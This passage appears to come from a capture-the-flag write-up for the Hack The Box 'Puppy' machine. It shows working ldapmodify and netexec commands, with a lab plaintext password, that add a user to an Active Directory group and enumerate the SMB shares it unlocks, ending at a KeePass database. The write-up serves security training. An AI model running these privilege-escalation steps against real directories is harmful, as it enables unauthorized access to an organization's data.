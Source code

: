 <p class="indent-paragraph">
With the LDIF file prepared and saved as <code>modify-developers-group.ldif</code><span class="codefix">,</span> we proceeded to apply the modification using <code>ldapmodify</code><span class="codefix">.</span> The command authenticated as <span class="blue">levi.james</span> and instructed the domain controller to append his distinguished name to the <code>DEVELOPERS</code> group. Once executed, the server processed the request and, assuming no ACLs interfered, confirmed success — Levi was now officially part of the developers.
</p>


```
~$ ldapmodify -x -H ldap://dc.puppy.htb -D "levi.james@puppy.htb" -w 'KingofAkron2025!' -f modify-developers-group.ldif

modifying entry "CN=DEVELOPERS,DC=PUPPY,DC=HTB"
```

### 🔓 Exploring the DEV Share

<p class="indent-paragraph">
With Levi’s distinguished name successfully injected into the <code>DEVELOPERS</code> group, all that remained was to verify whether the new privileges had taken effect. Using <code>netexec</code><span class="codefix">,</span> we confirmed that Levi now had <code>READ</code> access to the <code>DEV</code> share. The silent LDAP modification had done its job: Levi wasn’t just listed in the directory anymore; he had joined the developers' workspace.
</p>

```
~$ nxc smb dc.puppy.htb -u levi.james -p 'KingofAkron2025!' --shares 

SMB         dc.puppy.htb     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         dc.puppy.htb     445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         dc.puppy.htb     445    DC               [*] Enumerated shares
SMB         dc.puppy.htb     445    DC               Share           Permissions     Remark
SMB         dc.puppy.htb     445    DC               -----           -----------     ------
SMB         dc.puppy.htb     445    DC               ADMIN$                          Remote Admin
SMB         dc.puppy.htb     445    DC               C$                              Default share
SMB         dc.puppy.htb     445    DC               DEV             READ            DEV-SHARE for PUPPY-DEVS
SMB         dc.puppy.htb     445    DC               IPC$            READ            Remote IPC
SMB         dc.puppy.htb     445    DC               NETLOGON        READ            Logon server share 
SMB         dc.puppy.htb     445    DC               SYSVOL          READ            Logon server share
```

<p class="indent-paragraph">
Now that <span class="blue">levi.james</span> is part of the <code>DEVELOPERS</code> group, it’s time to validate access. Connecting to the <code>DEV</code> share via <code>smbclient</code> confirms that permissions have been updated. Within the directory, several notable files emerge, including a KeePass installer and a suspiciously named <code>recovery.kdbx</code> database.
</p>
